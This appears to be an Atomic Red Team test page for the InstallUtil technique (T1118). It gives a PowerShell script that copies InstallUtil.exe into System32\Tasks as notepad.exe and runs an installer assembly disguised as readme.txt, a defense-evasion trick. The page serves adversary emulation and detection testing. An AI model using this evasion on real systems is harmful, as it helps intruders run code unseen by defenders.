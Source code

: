 


<br/>
<br/>

## Atomic Test #8 - InstallUtil evasive invocation
Executes an InstallUtil assembly by renaming InstallUtil.exe and using a nonstandard extension for the assembly.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| test_harness | location of the test harness script - Invoke-BuildAndInvokeInstallUtilAssembly | Path | PathToAtomicsFolder\T1118\src\InstallUtilTestHarness.ps1|


#### Attack Commands: Run with `powershell`! 
```
# Import the required test harness function, Invoke-BuildAndInvokeInstallUtilAssembly
. #{test_harness}

$InstallerAssemblyDir = "$Env:windir\System32\Tasks"
$InstallerAssemblyFileName = 'readme.txt'
$InstallerAssemblyFullPath = Join-Path -Path $InstallerAssemblyDir -ChildPath $InstallerAssemblyFileName

$CommandLine = "readme.txt"
$ExpectedOutput = 'Constructor_'

# Explicitly set the directory so that a relative path to readme.txt can be supplied.
Set-Location "$Env:windir\System32\Tasks"

Copy-Item -Path "$([System.Runtime.InteropServices.RuntimeEnvironment]::GetRuntimeDirectory())InstallUtil.exe" -Destination "$Env:windir\System32\Tasks\notepad.exe"

$TestArgs = @{
    OutputAssemblyDirectory = $InstallerAssemblyDir
    OutputAssemblyFileName = $InstallerAssemblyFileName
    InvocationMethod = 'Executable'
    CommandLine = $CommandLine
    InstallUtilPath = "$Env:windir\System32\Tasks\notepad.exe"
}

$ActualOutput = Invoke-BuildAndInvokeInstallUtilAssembly @TestArgs -MinimumViableAssembly

if ($ActualOutput -ne $ExpectedOutput) {
    throw @"
Evasive Installutil invocation test failure. Installer assembly execution output did not match the expected output.
Expected: $ExpectedOutput
Actual: $ActualOutput
"@
}
```
